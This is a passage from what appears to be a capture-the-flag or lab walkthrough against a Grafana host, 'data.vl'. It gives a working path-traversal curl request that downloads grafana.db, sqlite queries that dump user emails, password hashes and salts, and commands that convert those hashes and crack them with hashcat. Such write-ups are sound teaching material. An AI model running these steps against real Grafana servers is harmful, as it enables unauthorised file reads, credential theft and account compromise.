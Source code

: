```bash
curl http://data.vl:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Flib%2Fgrafana%2Fgrafana.db --output grafana.db
```

Now, let's explore the database using sqlite3:

```bash
sqlite3 grafana.db

```

To examine the database schema:

```sql
sqlite> select sql from sqlite_schema;
sqlite> select tbl_name from sqlite_master where type='table';
```

One interesting table is user, which contains login, email, password, and salt columns.

```sql
sqlite> select login,email,password,salt from user;
```

```
admin|admin@localhost|7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S
boris|boris@data.vl|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl
```

Now, let's crack the hashes. Grafana uses PBKDF2-HMAC-SHA256 for password hashing. To format the hashes for hashcat, we use the Grafana2Hashcat script from github:

Spustíme skript takto:

```bash
python3 grafana2hashcat.py grafana_hashes.txt
```

```
[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  grafana_hashes.txt
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=

[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

Nice, the script generated new hash formats that is recognizable by hashcat and gave us an example hashcat command to crack those new hashes.
